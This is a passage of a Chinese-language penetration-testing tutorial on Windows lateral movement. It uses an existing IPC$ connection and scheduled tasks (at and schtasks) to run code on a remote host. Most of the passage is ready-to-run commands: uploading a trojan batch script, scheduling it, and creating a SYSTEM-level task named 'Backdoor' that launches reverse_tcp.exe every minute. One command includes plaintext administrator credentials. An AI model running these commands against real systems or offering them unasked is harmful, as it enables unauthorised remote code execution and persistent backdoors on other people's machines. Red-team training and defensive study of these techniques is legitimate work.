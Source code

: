 \\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有 at 命令，只有 schtasks 命令**

### [at（计划任务）](#toc_at)

利用过程如下：

```plain
net time \\192.168.1.131
# 查看时间
at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt"
# 结果输出到 result 下
type \\192.168.1.131\c$\result.txt
# 查看执行结果
at \\192.168.1.131 1 /delete
# 删除计划任务，1 是任务号
copy hack.bat \\192.168.1.131\c$\Windows\Temp
# 上传 bat 脚本
net time \\192.168.1.131                                                        
# 查看时间
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
# 创建定时任务，执行木马脚本
at \\192.168.1.131                                                              
# 查看任务列表
```

### [schtasks（计划任务）](#toc_schtasks)

操作步骤：

1.  利用已建立的 IPC 连接上传后门程序
2.  利用已建立的 IPC 连接或指定用户凭据的方式在远程主机上创建计划任务 shell

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建
```

如果没有建立 IPC 连接，则需要指定远程主机的用户凭据

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@
```

-   创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务 shell

```plain
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```

-   查看计划任务 shell

```plain
schtasks /query /S 192.168.1.131 /TN Backdoor
```
